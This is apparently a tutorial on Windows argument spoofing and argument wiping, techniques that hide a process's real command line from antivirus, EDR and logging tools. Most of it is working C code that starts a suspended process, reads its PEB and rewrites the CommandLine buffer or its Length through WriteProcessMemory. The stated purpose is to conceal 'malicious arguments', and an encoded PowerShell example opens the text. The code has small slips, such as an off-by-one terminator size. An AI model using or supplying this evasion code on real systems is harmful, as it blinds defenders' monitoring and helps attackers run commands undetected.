


Clearly that AntiVirus / EDR will flag your process if it looks something like this


```powershell.exe -encodedcommand "ZgB1AG4AYwB0AGkAbwBuACAASABMAFMAIAB7AA0ACgAgACAAIAAgAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAnAEgAZQBsAGwAbwAsACAAVwBvAHIAbABkACEAJwANAAoAfQA"```


# 1. Argument spoofing
Argument spoofing technique used to conceal the command line argument of a newly spawned process in order to facilitate the execution of commands without revealing them to logging services


## PEB
Each process on windows have their own ```PEB``` (Process Enviroment Block):
```c title="peb.c"
// source: https://ntdoc.m417z.com/peb
typedef struct _PEB{
    //
    // The process was cloned with an inherited address space.
    //
    BOOLEAN InheritedAddressSpace;

    //
    // The process has image file execution options (IFEO).
    //
    BOOLEAN ReadImageFileExecOptions;

    //
    // The process has a debugger attached.
    //
    BOOLEAN BeingDebugged;

    union
    {
        BOOLEAN BitField;
        struct
        {
            BOOLEAN ImageUsesLargePages : 1;            // The process uses large image regions (4 MB).
            BOOLEAN IsProtectedProcess : 1;             // The process is a protected process.
            BOOLEAN IsImageDynamicallyRelocated : 1;    // The process image base address was relocated.
            BOOLEAN SkipPatchingUser32Forwarders : 1;   // The process skipped forwarders for User32.dll functions. 1 for 64-bit, 0 for 32-bit.
            BOOLEAN IsPackagedProcess : 1;              // The process is a packaged store process (APPX/MSIX).
            BOOLEAN IsAppContainerProcess : 1;          // The process has an AppContainer token.
            BOOLEAN IsProtectedProcessLight : 1;        // The process is a protected process (light).
            BOOLEAN IsLongPathAwareProcess : 1;         // The process is long path aware.
        };
    };

    //
    // Handle to a mutex for synchronization.
    //
    HANDLE Mutant;

    //
    // Pointer to the base address of the process image.
    //
    PVOID ImageBaseAddress;

    //
    // Pointer to the process loader data.
    //
    PPEB_LDR_DATA Ldr;

    //
    // Pointer to the process parameters.
    //
    PRTL_USER_PROCESS_PARAMETERS ProcessParameters;

    //
    // Reserved.
    //
    PVOID SubSystemData;

    //
    // Pointer to the process default heap.
    //
    PHEAP ProcessHeap;

    //
    // Pointer to a critical section used to synchronize access to the PEB.
    //
    PRTL_CRITICAL_SECTION FastPebLock;

    //
    // Pointer to a singly linked list used by ATL.
    //
    PSLIST_HEADER AtlThunkSListPtr;

    //
    // Handle to the Image File Execution Options key.
    //
    HANDLE IFEOKey;

    //
    // Cross process flags.
    //
    union
    {
        ULONG CrossProcessFlags;
        struct
        {
            ULONG ProcessInJob : 1;                 // The process is part of a job.
            ULONG ProcessInitializing : 1;          // The process is initializing.
            ULONG ProcessUsingVEH : 1;              // The process is using VEH.
            ULONG ProcessUsingVCH : 1;              // The process is using VCH.
            ULONG ProcessUsingFTH : 1;              // The process is using FTH.
            ULONG ProcessPreviouslyThrottled : 1;   // The process was previously throttled.
            ULONG ProcessCurrentlyThrottled : 1;    // The process is currently throttled.
            ULONG ProcessImagesHotPatched : 1;      // The process images are hot patched. // RS5
            ULONG ReservedBits0 : 24;
        };
    };

    //
    // User32 KERNEL_CALLBACK_TABLE (ntuser.h)
    //
    union
    {
        PKERNEL_CALLBACK_TABLE KernelCallbackTable;
        PVOID UserSharedInfoPtr;
    };

    //
    // Reserved.
    //
    ULONG SystemReserved;

    //
    // Pointer to the Active Template Library (ATL) singly linked list (32-bit)
    //
    ULONG AtlThunkSListPtr32;

    //
    // Pointer to the API Set Schema.
    //
    PAPI_SET_NAMESPACE ApiSetMap;

    //
    // Counter for TLS expansion.
    //
    ULONG TlsExpansionCounter;

    //
    // Pointer to the TLS bitmap.
    //
    PRTL_BITMAP TlsBitmap;

    //
    // Bits for the TLS bitmap.
    //
    ULONG TlsBitmapBits[2];

    //
    // Reserved for CSRSS.
    //
    PVOID ReadOnlySharedMemoryBase;

    //
    // Pointer to the USER_SHARED_DATA for the current SILO.
    //
    PSILO_USER_SHARED_DATA SharedData;

    //
    // Reserved for CSRSS.
    //
    PVOID* ReadOnlyStaticServerData;

    //
    // Pointer to the ANSI code page data.
    //
    PCPTABLEINFO AnsiCodePageData;

    //
    // Pointer to the OEM code page data.
    //
    PCPTABLEINFO OemCodePageData;

    //
    // Pointer to the Unicode case table data.
    //
    PNLSTABLEINFO UnicodeCaseTableData;

    //
    // The total number of system processors.
    //
    ULONG NumberOfProcessors;

    //
    // Global flags for the system.
    //
    union
    {
        ULONG NtGlobalFlag;
        struct
        {
            ULONG StopOnException : 1;          // FLG_STOP_ON_EXCEPTION
            ULONG ShowLoaderSnaps : 1;          // FLG_SHOW_LDR_SNAPS
            ULONG DebugInitialCommand : 1;      // FLG_DEBUG_INITIAL_COMMAND
            ULONG StopOnHungGUI : 1;            // FLG_STOP_ON_HUNG_GUI
            ULONG HeapEnableTailCheck : 1;      // FLG_HEAP_ENABLE_TAIL_CHECK
            ULONG HeapEnableFreeCheck : 1;      // FLG_HEAP_ENABLE_FREE_CHECK
            ULONG HeapValidateParameters : 1;   // FLG_HEAP_VALIDATE_PARAMETERS
            ULONG HeapValidateAll : 1;          // FLG_HEAP_VALIDATE_ALL
            ULONG ApplicationVerifier : 1;      // FLG_APPLICATION_VERIFIER
            ULONG MonitorSilentProcessExit : 1; // FLG_MONITOR_SILENT_PROCESS_EXIT
            ULONG PoolEnableTagging : 1;        // FLG_POOL_ENABLE_TAGGING
            ULONG HeapEnableTagging : 1;        // FLG_HEAP_ENABLE_TAGGING
            ULONG UserStackTraceDb : 1;         // FLG_USER_STACK_TRACE_DB
            ULONG KernelStackTraceDb : 1;       // FLG_KERNEL_STACK_TRACE_DB
            ULONG MaintainObjectTypeList : 1;   // FLG_MAINTAIN_OBJECT_TYPELIST
            ULONG HeapEnableTagByDll : 1;       // FLG_HEAP_ENABLE_TAG_BY_DLL
            ULONG DisableStackExtension : 1;    // FLG_DISABLE_STACK_EXTENSION
            ULONG EnableCsrDebug : 1;           // FLG_ENABLE_CSRDEBUG
            ULONG EnableKDebugSymbolLoad : 1;   // FLG_ENABLE_KDEBUG_SYMBOL_LOAD
            ULONG DisablePageKernelStacks : 1;  // FLG_DISABLE_PAGE_KERNEL_STACKS
            ULONG EnableSystemCritBreaks : 1;   // FLG_ENABLE_SYSTEM_CRIT_BREAKS
            ULONG HeapDisableCoalescing : 1;    // FLG_HEAP_DISABLE_COALESCING
            ULONG EnableCloseExceptions : 1;    // FLG_ENABLE_CLOSE_EXCEPTIONS
            ULONG EnableExceptionLogging : 1;   // FLG_ENABLE_EXCEPTION_LOGGING
            ULONG EnableHandleTypeTagging : 1;  // FLG_ENABLE_HANDLE_TYPE_TAGGING
            ULONG HeapPageAllocs : 1;           // FLG_HEAP_PAGE_ALLOCS
            ULONG DebugInitialCommandEx : 1;    // FLG_DEBUG_INITIAL_COMMAND_EX
            ULONG DisableDbgPrint : 1;          // FLG_DISABLE_DBGPRINT
            ULONG CritSecEventCreation : 1;     // FLG_CRITSEC_EVENT_CREATION
            ULONG LdrTopDown : 1;               // FLG_LDR_TOP_DOWN
            ULONG EnableHandleExceptions : 1;   // FLG_ENABLE_HANDLE_EXCEPTIONS
            ULONG DisableProtDlls : 1;          // FLG_DISABLE_PROTDLLS
        } NtGlobalFlags;
    };

    //
    // Timeout for critical sections.
    //
    LARGE_INTEGER CriticalSectionTimeout;

    //
    // Reserved size for heap segments.
    //
    SIZE_T HeapSegmentReserve;

    //
    // Committed size for heap segments.
    //
    SIZE_T HeapSegmentCommit;

    //
    // Threshold for decommitting total free heap.
    //
    SIZE_T HeapDeCommitTotalFreeThreshold;

    //
    // Threshold for decommitting free heap blocks.
    //
    SIZE_T HeapDeCommitFreeBlockThreshold;

    //
    // Number of process heaps.
    //
    ULONG NumberOfHeaps;

    //
    // Maximum number of process heaps.
    //
    ULONG MaximumNumberOfHeaps;

    //
    // Pointer to an array of process heaps. ProcessHeaps is initialized
    // to point to the first free byte after the PEB and MaximumNumberOfHeaps
    // is computed from the page size used to hold the PEB, less the fixed
    // size of this data structure.
    //
    PVOID* ProcessHeaps;

    //
    // Pointer to the system GDI shared handle table.
    //
    PGDI_HANDLE_ENTRY GdiSharedHandleTable;

    //
    // Pointer to the process starter helper.
    //
    PVOID ProcessStarterHelper;

    //
    // The maximum number of GDI function calls during batch operations (GdiSetBatchLimit)
    //
    ULONG GdiDCAttributeList;

    //
    // Pointer to the loader lock critical section.
    //
    PRTL_CRITICAL_SECTION LoaderLock;

    //
    // Major version of the operating system.
    //
    ULONG OSMajorVersion;

    //
    // Minor version of the operating system.
    //
    ULONG OSMinorVersion;

    //
    // Build number of the operating system.
    //
    USHORT OSBuildNumber;

    //
    // CSD version of the operating system.
    //
    USHORT OSCSDVersion;

    //
    // Platform ID of the operating system.
    //
    ULONG OSPlatformId;

    //
    // Subsystem version of the current process image (PE Headers).
    //
    ULONG ImageSubsystem;

    //
    // Major version of the current process image subsystem (PE Headers).
    //
    ULONG ImageSubsystemMajorVersion;

    //
    // Minor version of the current process image subsystem (PE Headers).
    //
    ULONG ImageSubsystemMinorVersion;

    //
    // Affinity mask for the current process.
    //
    KAFFINITY ActiveProcessAffinityMask;

    //
    // Temporary buffer for GDI handles accumulated in the current batch.
    //
    GDI_HANDLE_BUFFER GdiHandleBuffer;

    //
    // Pointer to the post-process initialization routine available for use by the application.
    //
    PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;

    //
    // Pointer to the TLS expansion bitmap.
    //
    PRTL_BITMAP TlsExpansionBitmap;

    //
    // Bits for the TLS expansion bitmap. TLS_EXPANSION_SLOTS
    //
    ULONG TlsExpansionBitmapBits[32];

    //
    // Session ID of the current process.
    //
    ULONG SessionId;

    //
    // Application compatibility flags. KACF_*
    //
    ULARGE_INTEGER AppCompatFlags;

    //
    // Application compatibility flags. KACF_*
    //
    ULARGE_INTEGER AppCompatFlagsUser;

    //
    // Pointer to the Application SwitchBack Compatibility Engine.
    //
    PSHIM_PROCESS_CONTEXT pShimData;

    //
    // Pointer to the Application Compatibility Engine.
    //
    PAPPCOMPAT_EXE_DATA AppCompatInfo;

    //
    // CSD version string of the operating system.
    //
    UNICODE_STRING CSDVersion;

    //
    // Pointer to the process activation context.
    //
    PACTIVATION_CONTEXT_DATA ActivationContextData;

    //
    // Pointer to the process assembly storage map.
    //
    PASSEMBLY_STORAGE_MAP ProcessAssemblyStorageMap;

    //
    // Pointer to the system default activation context.
    //
    PACTIVATION_CONTEXT_DATA SystemDefaultActivationContextData;

    //
    // Pointer to the system assembly storage map.
    //
    PASSEMBLY_STORAGE_MAP SystemAssemblyStorageMap;

    //
    // Minimum stack commit size.
    //
    SIZE_T MinimumStackCommit;

    //
    // since 19H1 (previously FlsCallback to FlsHighIndex)
    //
    PVOID SparePointers[2];

    //
    // Pointer to the patch loader data.
    //
    PVOID PatchLoaderData;

    //
    // Pointer to the CHPE V2 process information. CHPEV2_PROCESS_INFO
    //
    PVOID ChpeV2ProcessInfo;

    //
    // Packaged process feature state.
    //
    ULONG AppModelFeatureState;

    //
    // SpareUlongs
    //
    ULONG SpareUlongs[2];

    //
    // Active code page.
    //
    USHORT ActiveCodePage;

    //
    // OEM code page.
    //
    USHORT OemCodePage;

    //
    // Code page case mapping.
    //
    USHORT UseCaseMapping;

    //
    // Unused NLS field.
    //
    USHORT UnusedNlsField;

    //
    // Pointer to the application WER registration data.
    //
    PWER_PEB_HEADER_BLOCK WerRegistrationData;

    //
    // Pointer to the application WER assert pointer.
    //
    PVOID WerShipAssertPtr;

    //
    // Pointer to the EC bitmap on ARM64. (Windows 11 and above)
    //
    union
    {
        PVOID pContextData; // Pointer to the switchback compatibility engine (Windows 7 and below)
        PVOID EcCodeBitMap; // Pointer to the EC bitmap on ARM64 (Windows 11 and above) // since WIN11
    };

    //
    // Reserved.
    //
    PVOID ImageHeaderHash;

    //
    // ETW tracing flags.
    //
    union
    {
        ULONG TracingFlags;
        struct
        {
            ULONG HeapTracingEnabled : 1;       // ETW heap tracing enabled.
            ULONG CritSecTracingEnabled : 1;    // ETW lock tracing enabled.
            ULONG LibLoaderTracingEnabled : 1;  // ETW loader tracing enabled.
            ULONG SpareTracingBits : 29;
        };
    };

    //
    // Reserved for CSRSS.
    //
    ULONGLONG CsrServerReadOnlySharedMemoryBase;

    //
    // Pointer to the thread pool worker list lock.
    //
    PRTL_CRITICAL_SECTION TppWorkerpListLock;

    //
    // Pointer to the thread pool worker list.
    //
    LIST_ENTRY TppWorkerpList;

    //
    // Wait on address hash table. (RtlWaitOnAddress)
    //
    PVOID WaitOnAddressHashTable[128];

    //
    // Pointer to the telemetry coverage header. // since RS3
    //
    PTELEMETRY_COVERAGE_HEADER TelemetryCoverageHeader;

    //
    // Cloud file flags. (ProjFs and Cloud Files) // since RS4
    //
    ULONG CloudFileFlags;

    //
    // Cloud file diagnostic flags.
    //
    ULONG CloudFileDiagFlags;

    //
    // Placeholder compatibility mode. (ProjFs and Cloud Files)
    //
    CHAR PlaceholderCompatibilityMode;

    //
    // Reserved for placeholder compatibility mode.
    //
    CHAR PlaceholderCompatibilityModeReserved[7];

    //
    // Pointer to leap second data. // since RS5
    //
    PLEAP_SECOND_DATA LeapSecondData;

    //
    // Leap second flags.
    //
    union
    {
        ULONG LeapSecondFlags;
        struct
        {
            ULONG SixtySecondEnabled : 1; // Leap seconds enabled.
            ULONG Reserved : 31;
        };
    };

    //
    // Global flags for the process.
    //
    ULONG NtGlobalFlag2;

    //
    // Extended feature disable mask (AVX). // since WIN11
    //
    ULONGLONG ExtendedFeatureDisableMask;
} PEB, *PPEB;

```


Every ```PEB``` have ```ProcessParameters```, which is a pointer to ```RTL_USER_PROCESS_PARAMETERS```

```c
typedef struct _RTL_USER_PROCESS_PARAMETERS {
  BYTE           Reserved1[16];
  PVOID          Reserved2[10];
  UNICODE_STRING ImagePathName;
  UNICODE_STRING CommandLine;
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;
```


As we know, ```CommandLine``` is the ```UNICODE_STRING```

```UNICODE_STRING``` is defined as:

```c
typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

```


=> If we can access and change this ```CommandLine```, we can manipulate the process arguments

Ex: Changing process arguments 
```c title="ProcessArgumentSpoofing.c"
#include <windows.h>
#include <winternl.h>
#include <stdio.h>

// NtQueryInformationProcess prototype
typedef NTSTATUS (NTAPI* NtQueryInformationProcess_t)(
    HANDLE,
    PROCESSINFOCLASS,
    PVOID,
    ULONG,
    PULONG
);

int main() {
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);

    wchar_t cmdLine[] = L"notepad.exe SAFE.txt";

    if (!CreateProcessW(
        NULL,
        cmdLine,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        NULL,
        &si,
        &pi
    )) {
        wprintf(L"CreateProcessW failed: %lu\n", GetLastError());
        return 1;
    }

    // Resolve NtQueryInformationProcess
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    NtQueryInformationProcess_t NtQueryInformationProcess =
        (NtQueryInformationProcess_t)GetProcAddress(hNtdll, "NtQueryInformationProcess");

    PROCESS_BASIC_INFORMATION pbi = {0};
    ULONG retLen = 0;

    if (NtQueryInformationProcess(
        pi.hProcess,
        ProcessBasicInformation,
        &pbi,
        sizeof(pbi),
        &retLen
    ) != 0) {
        wprintf(L"NtQueryInformationProcess failed\n");
        return 1;
    }

    // Step 1: Read remote PEB
    PEB peb = {0};
    if (!ReadProcessMemory(
        pi.hProcess,
        pbi.PebBaseAddress,
        &peb,
        sizeof(peb),
        NULL
    )) {
        wprintf(L"Read PEB failed: %lu\n", GetLastError());
        return 1;
    }

    // Step 2: Read RTL_USER_PROCESS_PARAMETERS
    RTL_USER_PROCESS_PARAMETERS params = {0};
    if (!ReadProcessMemory(
        pi.hProcess,
        peb.ProcessParameters,
        &params,
        sizeof(params),
        NULL
    )) {
        wprintf(L"Read params failed: %lu\n", GetLastError());
        return 1;
    }

    // Step 3: Read command line buffer
    SIZE_T size = params.CommandLine.Length;
    wchar_t* buffer = (wchar_t*)malloc(size + sizeof(wchar_t));

    if (!buffer) return 1;

    if (!ReadProcessMemory(
        pi.hProcess,
        params.CommandLine.Buffer,
        buffer,
        size,
        NULL
    )) {
        wprintf(L"Read command line failed: %lu\n", GetLastError());
        free(buffer);
        return 1;
    }

    buffer[size / sizeof(wchar_t)] = L'\0';

    wprintf(L"Original CommandLine: %ls\n", buffer);


    // Writing the real argument to the process
    wchar_t RealCommand[32] = L"notepad.exe UNSAFE.txt";
    DWORD BufferSize = wcslen(RealCommand)*(sizeof(wchar_t)) + 1;
    WriteProcessMemory(pi.hProcess, (PVOID)params.CommandLine.Buffer, (PVOID)RealCommand, BufferSize, NULL);

    free(buffer);

    // Cleanup
    ResumeThread(pi.hThread);

    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return 0;
}
```
Result: 



# 2. Argument Wiping
 
Some monitor tools use ```NtQueryInformationProcess``` to read the process arguments, therefore the upper method may not work in some cases


```NtQueryInformationProcess``` rely on ```RTL_USER_PROCESS_PARAMETERS``` struct to read processes parameter.
```RTL_USER_PROCESS_PARAMETERS``` stores process parameters as ```UNICODE_STRING```
```c
typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;
```

So if we change this ```Length``` and ```MaximumLength```, we can hide our actual malicious arguments


```c title="ProcessArgumentWiping.c"

#include <windows.h>
#include <winternl.h>
#include <stdio.h>
#include <stddef.h>


// NtQueryInformationProcess prototype
typedef NTSTATUS (NTAPI* NtQueryInformationProcess_t)(
    HANDLE,
    PROCESSINFOCLASS,
    PVOID,
    ULONG,
    PULONG
);

int main() {
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);

    wchar_t cmdLine[] = L"notepad.exe SAFE.txt";

    if (!CreateProcessW(
        NULL,
        cmdLine,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        NULL,
        &si,
        &pi
    )) {
        wprintf(L"CreateProcessW failed: %lu\n", GetLastError());
        return 1;
    }

    // Resolve NtQueryInformationProcess
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    NtQueryInformationProcess_t NtQueryInformationProcess =
        (NtQueryInformationProcess_t)GetProcAddress(hNtdll, "NtQueryInformationProcess");

    PROCESS_BASIC_INFORMATION pbi = {0};
    ULONG retLen = 0;

    if (NtQueryInformationProcess(
        pi.hProcess,
        ProcessBasicInformation,
        &pbi,
        sizeof(pbi),
        &retLen
    ) != 0) {
        wprintf(L"NtQueryInformationProcess failed\n");
        return 1;
    }

    // Step 1: Read remote PEB
    PEB peb = {0};
    if (!ReadProcessMemory(
        pi.hProcess,
        pbi.PebBaseAddress,
        &peb,
        sizeof(peb),
        NULL
    )) {
        wprintf(L"Read PEB failed: %lu\n", GetLastError());
        return 1;
    }

    // Step 1: get remote ProcessParameters address
    PBYTE remoteParams = (PBYTE)peb.ProcessParameters;
    
    
    // Step 2: compute address of CommandLine.Length
    PBYTE remoteCmdLenAddr =
        remoteParams
        + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine)
        + offsetof(UNICODE_STRING, Length);

    USHORT FakeLength = sizeof(L"notepad.exe");
        
    // WriteToTargetProcess(Pi.hProcess, ((PBYTE)pPeb->ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length)), (PVOID)&dwNewLen, sizeof(DWORD)
    WriteProcessMemory(
        pi.hProcess,
        remoteCmdLenAddr,
        (PVOID)&FakeLength,
        sizeof(FakeLength),
        NULL
    );


    // Cleanup
    ResumeThread(pi.hThread);

    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);

    return 0;
}
```


